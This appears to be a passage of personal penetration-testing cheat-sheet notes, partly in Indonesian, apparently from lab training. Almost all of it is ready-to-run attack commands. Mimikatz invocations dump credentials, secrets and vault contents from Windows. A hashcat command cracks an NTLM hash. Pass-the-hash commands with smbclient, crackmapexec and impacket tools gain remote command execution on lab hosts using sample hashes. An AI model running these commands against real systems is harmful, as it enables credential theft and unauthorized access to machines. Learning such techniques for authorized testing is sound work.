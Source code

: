 ```cmd
Invoke-Mimikatz -Command '"privilege::debug"' (pastikan Administrator)
Invoke-Mimikatz -Command '"token::elevate"' 
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' (dapet NTLM and SHA1 hash)
Invoke-Mimikatz -Command '"lsadump::sam"'
Invoke-Mimikatz -Command '"lsadump::secrets"'
Invoke-Mimikatz -Command '"vault::cred /patch"'

or langsung aja

.\Invoke-Mimikatz
Invoke-Mimikatz

NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
```
3. Crack NTLM
```cmd
hashcat -m 1000 nelly.hash /opt/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## PASS THE HASH, PASSTHEHASH, PASS-THE-HASH (PTH)

We can use this technique to authenticate to a local or remote target with a valid combination of username and NTLM hash rather than a plaintext password

# SMB Enumeration
- smbclient
```bash
smbclient \\\\192.168.199.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```
- crackmapexec
```bash
crackmapexec smb 192.168.199.212 -u administrator -H 7a38310ea6f0027ee955abed1762964b --shares
crackmapexec smb 192.168.199.212 -u administrator -H 7a38310ea6f0027ee955abed1762964b -X whoami
```

# Command Execution / Windows Remote (COBAIN SMW SATU-SATU)
- impacket-psexec
```bash
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.199.212


"LMHash:NTHash"
Since we only use the NTLM hash, we can fill the LMHash section with 32 0's.
```
- impacket-smbexec
```bash
impacket-smbexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.199.212 
```
- impacket-wmiexec
```bash
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.199.212
```
- impacket-mssqlclient
```cmd
proxychains impacket-mssqlclient -hashes :e728ecbadfb02f51ce8eed753f3ff3fd celia.almeda@10.10.151.142 -windows-auth
```